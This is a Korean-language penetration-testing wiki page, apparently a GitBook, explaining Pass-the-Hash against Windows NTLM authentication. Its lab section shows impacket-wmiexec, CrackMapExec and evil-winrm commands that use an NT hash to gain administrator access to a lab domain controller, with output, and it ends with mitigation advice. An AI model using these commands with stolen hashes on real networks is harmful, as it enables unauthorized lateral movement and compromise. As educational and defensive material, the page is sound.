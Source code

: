 # Pass-the-Hash

패스 더 해시 (Pass-the-Hash, PtH, PTH) 기법은 윈도우 NTLM 인증을 사용할 때 평문 비밀번호를 사용하지 않고, 그 비밀번호의 NT 해시를 사용해 인증하는 기법을 일컫는다. 패스 더 해시는 평범하게 NTLM 인증을 활용하는 기법 중 하나다. 만들어놓은 프로토콜을 의도한대로 평범하게 사용하는 것이다. [NTLM 인증의 개념은 따로 정리](../general-concepts/windows-authentication/ntlm.md)해놨으니 이 페이지에서는 다이어그램만 가져와서 사용하고, 자세한 설명은 생략한다.

![](<../.gitbook/assets/ntlm-local-auth.drawio(1) (1).png>)

NTLM 인증이 이뤄지는 동안 유저의 평문 비밀번호는 사용되지 않는다. Challenge/Response 에서는 오로지 유저의 NT 해시화된 비밀번호로 암호화된 Challenge 만 서버와 클라이언트가 주고 받을 뿐이다.

공격자의 입장에서도 마찬가지다. LSASS 덤프 (TODO: 페이지 생성 + 링크)를 진행하다 보면 유저의 NT 해시를 얻을 때가 많다. 경우에 따라서 크래킹이 가능한 경우도 있지만, 비밀번호가 복잡하고 길때는 불가능할때도 많다. 하지만 NTLM 인증 프로토콜은 평문 비밀번호가 필요 없는 프로토콜이다. 더 정확하게는 평문 비밀번호를 굳이 알아낼 필요가 없다. NT 해시만 있으면 된다.

패스 더 해시는 원격 코드 실행 및 횡적이동에서 많이 사용된다.

* SMB + PsExec
* WMI
* WinRM
* RDP - 단, Restricted Admin (`HKLM\System\CurrentControlSet\Control\LSA, DisableRestrictedAdmin` 이 0이여야함)

등의 횡적 이동을 할 때 모두 평문 비밀번호 대신 패스 더 해시를 이용할 수 있다.

### 실습

많은 윈도우 + 리눅스 기반의 액티브 디렉토리 툴들은 기본적으로 패스 더 해시를 지원한다.예를 들어 impacket, CrackMapExec, Rubeus, Mimikatz 등이 있지만, 거의 왠만한 툴들은 다 지원한다고 보면 된다.

{% tabs %}
{% tab title="리눅스" %}
impacket 툴들의 경우 `-hashes` 플래그를 사용하며, LM:NT 형식의 해시가 필요하다. CME의 경우 그냥 NT 해시만 줘도 된다.

```
# Impacket 툴들의 "-hashes" 플래그 사용 
impacket-wmiexec domain.com/user@targetFQDN <command> -hashes '<LM:NT>'

impacket-wmiexec choi.local/Administrator@dc01.choi.local whoami -hashes 'aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe' 
Impacket v0.10.1.dev1+20220628.224634.5122bcf - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
choi\administrator

# CME 의 -H 플래그 사용 
cme smb <FQDN/IP> -u <user> -H <NThash> -d <domain> 

cme smb 192.168.40.150 -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe -d choi.local                                  
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\Administrator:2b576acbe6bcfda7294d6bd18041b8fe (Pwn3d!)

cme smb 192.168.40.150 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe -d choi.local 
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\Administrator:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe (Pwn3d!)

# WinRM을 이용한 패스 더 해시 
evil-winrm -i <ip> -u <user> -H <NThash> 
```
{% endtab %}

{% tab title="윈도우" %}
TODO
{% endtab %}
{% endtabs %}

### 특이 사항

패스 더 해시 기법의 가장 큰 오해는 바로 이것이 공격(attack)이라는 것이다. 패스 더 해시는 공격도 아니고, 특정 프로토콜을 악용(abuse)하는 것도 아니다. NTLM 인증 프로토콜의 취약점(vulnerability)는 더더욱 아니다. 따라서 내부망 모의해킹을 진행할 때도 이 PTH 를 취약점으로 적어놓는 실수를 하면 안된다.

### 대응 방안

앞서 서술했듯 패스 더 해시는 NTLM을 정상적으로 이용하는 한 방법이기 때문에 막을 방법이 없다. 그나마 AD에서 커버로스나 ADCS를 강제로 이용하게 하는 방법이 있지만, 이는 하위 호환성에 영향을 줄 가능성이 있어 실행하기 어렵다. 패스 더 해시를 막으려는 노력보단 애당초 공격자들이 NT 해시나 다른 계정 정보를 얻을 수 없게끔 보안을 강화하는 것이 추천된다.
